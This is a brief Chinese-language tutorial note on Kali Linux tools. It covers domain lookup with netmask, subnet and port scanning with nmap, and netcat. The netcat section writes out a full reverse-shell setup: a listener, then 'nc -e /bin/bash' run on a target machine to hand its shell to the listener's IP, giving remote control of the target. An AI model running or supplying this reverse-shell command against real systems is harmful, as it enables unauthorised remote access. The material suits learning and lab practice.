 # Kali Linux 工具


## netmask

### 查域名ip

```bash
netmask -s google.com
```

## nmap 端口扫描

### 扫描网段下的ip

查看路由器连接了那些设备

```bash
#指定端口范围
nmap -sT -p 80,443  192.168.31.0/24
nmap -sT   192.168.31.0/24
```

### 扫描端口

```bash
nmap 192.168.31.26
```

## netcat 使用

### 在源机器建立监听

```bash
nc -lnvp 88 -s 192.168.31.191
```

### 在目标机器连接源机器

```bash
nc -e /bin/bash 192.168.31.191 88
```

回到源机器，可以看到如下回显

```bash
connect to [192.168.31.191] from (UNKNOWN) [192.168.31.26] 64197
```
在源机器上执行命令，现在就可以像操作本机一样操作目标机器
